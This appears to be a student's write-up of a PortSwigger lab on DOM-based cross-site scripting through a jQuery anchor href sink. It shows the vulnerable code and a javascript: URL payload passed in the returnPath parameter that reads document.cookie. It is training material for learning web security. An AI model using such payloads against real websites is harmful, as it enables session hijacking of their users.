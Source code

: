 # DOM XSS in jQuery Anchor Href
## Lab Loc:
> https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

## About summary
This lab reflects unsanitized data from location.search into the href attribute of an anchor tag using jQuery.
The code used is likely:
```js
$('a#back').attr('href', returnPathFromURL)
```
> - `$('a#back')` means Select the `<a>` tag that has the ID of `back`. Same as `document.querySelector("a#back")`
> - `.attr('href', ...)` means Set the `href (link)` of the `<a id="back">` element to whatever is in `returnPathFromURL`.


## Procedure
- I noticed the `< Back` link used a value from `returnPath`.
- So I Injected a `javascript:` payload in the URL.
- Right-clicked the link → Opened in new tab.
- Got the document.cookie alert

## Payload used:
```js
?returnPath=javascript:alert(document.cookie)
```

 ## Real Explanation
If you control returnPathFromURL via the URL like this:
```js
?returnPath=javascript:alert(document.cookie)
```
It’ll do this:
```js
$('a#back').attr('href', 'javascript:alert(document.cookie)')
```
HArd! Anyone who clicks that `< Back` link? XSS gets triggered.
